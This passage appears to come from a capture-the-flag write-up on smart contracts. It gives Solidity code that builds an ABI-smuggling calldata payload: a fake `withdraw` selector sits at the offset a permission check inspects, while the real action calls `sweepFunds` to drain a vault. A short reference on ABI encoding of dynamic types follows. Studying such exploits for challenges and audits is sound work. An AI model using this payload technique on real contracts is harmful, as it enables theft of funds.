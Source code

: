 ```
        // Manually define the `withdraw()` function selector as `d9caed12` followed by zeros
        bytes memory withdrawSelectorPadded = abi.encodePacked(
            bytes4(0xd9caed12),     // Withdraw function selector
            bytes28(0)              // 28 zero bytes to fill the 32-byte slot
        );

        // Construct the calldata for the `sweepFunds()` function
        bytes memory sweepFundsCalldata = abi.encodeWithSelector(
            vault.sweepFunds.selector,
            recovery,
            token
        );

        // Manually set actionDataLength to 0x44 (68 bytes)
        uint256 actionDataLengthValue = sweepFundsCalldata.length;
        emit LogActionDataLength(actionDataLengthValue);
        bytes memory actionDataLength = abi.encodePacked(uint256(actionDataLengthValue));


        // Combine all parts to create the complete calldata payload
        bytes memory calldataPayload = abi.encodePacked(
            executeSelector,              // 4 bytes
            target,                       // 32 bytes
            dataOffset,                   // 32 bytes
            emptyData,                    // 32 bytes
            withdrawSelectorPadded,       // 32 bytes (starts at the 100th byte)
            actionDataLength,             // Length of actionData
            sweepFundsCalldata            // The actual calldata to `sweepFunds()`
        );

        // Emit the calldata payload for debugging
        emit LogCalldataPayload(calldataPayload);

        // Return the constructed calldata payload
        return calldataPayload;
    }
}
```

```
REF
ABI encoding of dynamic types (bytes, strings)
In the ABI Standard, dynamic types are encoded the following way:

The offset of the dynamic data
The length of the dynamic data
The actual value of the dynamic data.
Memory loc      Data
0x00            0000000000000000000000000000000000000000000000000000000000000020 // The offset of the data (32 in decimal)
0x20            000000000000000000000000000000000000000000000000000000000000000d // The length of the data in bytes (13 in decimal)
0x40            48656c6c6f2c20776f726c642100000000000000000000000000000000000000 // actual value
If you hex decode 48656c6c6f2c20776f726c6421 you will get "Hello, world!".
```
### Shards
